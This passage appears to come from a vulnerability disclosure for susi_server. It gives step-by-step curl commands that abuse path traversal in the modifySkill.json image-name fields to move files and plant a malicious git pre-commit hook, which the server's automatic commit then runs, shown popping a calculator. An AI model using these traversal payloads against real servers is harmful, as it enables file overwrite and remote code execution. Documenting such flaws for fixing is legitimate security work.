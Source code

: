 3. A file manager is opened which shows the existence of the `susi_skill_data/models/general/Knowledge/en/whois.txt` file and also the `susi_skill_data/models/general/Knowledge/en/images/owned` file.

4. In a terminal the following command is executed:
   ```bash
   `curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=whois' \
   -F 'content=ANYTHING' -F 'new_image_name=../pre-commit.txt' \
   -F 'old_image_name=../../../../../../susi_server/src/org/json/JSONException.java' \
   'http://localhost:4000/cms/modifySkill.json'
   ```
   This will change the content of the `whois` skill file from `OWNED` to `ANYTHING`.
   The file `susi_server/src/org/json/JSONException.java` (this file is executable) is renamed to `susi_skill_data/models/general/Knowledge/en/pre-commit.txt`.

5. In a terminal the following command is executed:
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=pre-commit' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=pre-commit' \
   -F $'content=#!/bin/sh\nexec xcalc' \
   -F 'new_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit' \
   -F 'old_image_name=../pre-commit.txt' 'http://localhost:4000/cms/modifySkill.json'
   ```
   This will change the content of the `pre-commit` skill file to `#!/bin/sh\nexec xcalc`.
   The skill file `susi_skill_data/models/general/Knowledge/en/pre-commit.txt` is then moved to `susi_skill_data/.git/hooks/pre-commit`.
6. A file manager is opened which shows the existence of the `susi_skill_data/.git/hooks/pre-commit` file.
7. The changes are now automatically commited by `susi_server`.
This triggers the malicious pre-commit hook we just created. A calculator that pops up can be seen.
</p>